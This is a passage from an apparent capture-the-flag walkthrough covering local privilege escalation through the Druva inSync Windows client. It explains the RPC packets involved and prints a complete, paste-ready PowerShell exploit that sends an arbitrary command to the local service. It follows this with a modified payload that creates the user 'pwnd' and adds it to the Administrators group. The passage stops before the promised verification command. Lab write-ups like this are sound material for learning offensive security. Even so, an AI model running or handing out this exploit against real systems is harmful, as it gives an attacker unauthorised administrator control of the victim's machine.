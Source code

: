 	Breakdown:
	- The first packet is simple a HELLO packet that contains a fixed string.
	- The second packet indicates that we want to execute procedure number 5, as this is the vulnerable procedure that will execute any command for us.
	- The last two packets are used to send the length of the command and the command string to be executed, respectively.

- The following exploit, can be used in your target machine to `elevate privileges`:

		- Link: https[:][/][/]packetstormsecurity[.]com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

- You can pop a `PowerShell` console and paste the exploit directly to execute it (the exploit is also available in the target machine at `C:\tools\Druuva_inSync_exploit.txt`).
- Note that the exploit's **default** payload, specified in the `$cmd` variable, will create a user named `pwnd` in the Windows system, but won't have admin privileges and only have default user privileges.
- In this case, we want to modify the payload to be executed once the exploit works to:

```ps
> net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

	- Basically add the user 'pwnd' to group "Administrators" so it would also have admin privileges like the rest of other users with admin privileges such as SYSTEM/ NT AUTHORITY.
	- Of course, after this, we could just log into the created user and acquire the contents of flag.txt.

- If the exploit was succesful, you should be able to run the following command to verify that the user '`pwnd`' exists and is part of the administrator's group:

